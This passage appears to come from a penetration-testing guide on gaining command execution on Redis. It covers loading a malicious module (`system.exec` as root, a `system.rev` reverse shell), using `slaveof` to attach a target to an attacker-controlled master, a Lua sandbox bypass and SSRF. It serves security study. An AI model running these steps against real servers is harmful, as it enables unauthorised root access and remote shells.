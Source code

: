 Following the instructions from link below you can compile a redis module to execute arbitrary commands.

[GitHub - n0b0dyCN/RedisModules-ExecuteCommand: Tools, utilities and scripts to help you write redis modules!](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand)

Then you need some way to upload the compiled module
Load the uploaded module at runtime with `MODULE LOAD /path/to/mymodule.so`
List loaded modules to check it was correctly loaded: `MODULE LIST`
Execute commands:

```bash
127.0.0.1:6379> system.exec "id"
"uid=0(root) gid=0(root) groups=0(root)\n"
127.0.0.1:6379> system.exec "whoami"
"root\n"
127.0.0.1:6379> system.rev 127.0.0.1 9999
Unload the module whenever you want: MODULE UNLOAD mymodule
```

### LUA sandbox bypass

[Here](https://www.agarri.fr/blog/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html) you can see that Redis uses the command EVAL to execute Lua code sandboxed. In the linked post you can see how to abuse it using the dotfile function, but [apparently](https://stackoverflow.com/questions/43502696/redis-cli-code-execution-using-eval) this isn't no longer possible.  Anyway, if you can bypass the Lua sandbox you could execute arbitrary commas on the system. Also, from the same post you can see some options to cause DoS.

### Master-Slave Module

The master redis all operations are automatically synchronized to the slave redis, which means that we can regard the vulnerability redis as a slave redis, connected to the master redis which our own controlled, then we can enter the command to our own redis.

```bash
master redis : 10.10.y.y #(Hacker's Server)
slave  redis : 10.10.x.x #(Target Vulnerability Server)

#A master-slave connection will be established from the slave redis and the master redis:
redis-cli -h 10.1.0.52 -p 6379
slaveof 10.10.y.y 6379

#Then you can login to the master redis to control the slave redis:
redis-cli -h 10.10.y.y -p 6379
set mykey hello
set mykey2 helloworld
```

### SSRF talking to Redis

If you can send clear text request to Redis, you can communicate with it as Redis will read line by line the request and just respond with errors to the lines it doesn't understand:

```bash
-ERR wrong number of arguments for 'get' command
-ERR unknown command 'Host:'
-ERR unknown command 'Accept:'
-ERR unknown command 'Accept-Encoding:'
-ERR unknown command 'Via:'
-ERR unknown command 'Cache-Control:'
-ERR unknown command 'Connection:'
```
